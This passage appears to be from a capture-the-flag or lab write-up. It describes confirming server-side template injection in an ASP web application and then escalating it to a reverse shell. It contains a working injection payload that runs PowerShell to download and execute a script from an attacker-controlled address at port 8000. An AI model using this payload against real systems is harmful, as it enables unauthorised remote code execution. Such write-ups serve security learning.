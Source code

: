 Interesting. Since this is using `asp`, and the output is printed on another screen, we can test some SSTI. I used this payload:

<figure><img src="../../../.gitbook/assets/image (354).png" alt=""><figcaption></figcaption></figure>

And this was returned:

<figure><img src="../../../.gitbook/assets/image (3174).png" alt=""><figcaption></figcaption></figure>

This confirms that SSTI is possible on this machine, and that we can use this to gain a reverse shell (if there's no AMSI / AppLocker).&#x20;

{% code overflow="wrap" %}
```
<%= CreateObject("Wscript.Shell").exec("powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14:8000/shell.ps1')").StdOut.ReadAll() %>
```
{% endcode %}

Using this, we can get a reverse shell easily.&#x20;

<figure><img src="../../../.gitbook/assets/image (2711).png" alt=""><figcaption></figcaption></figure>
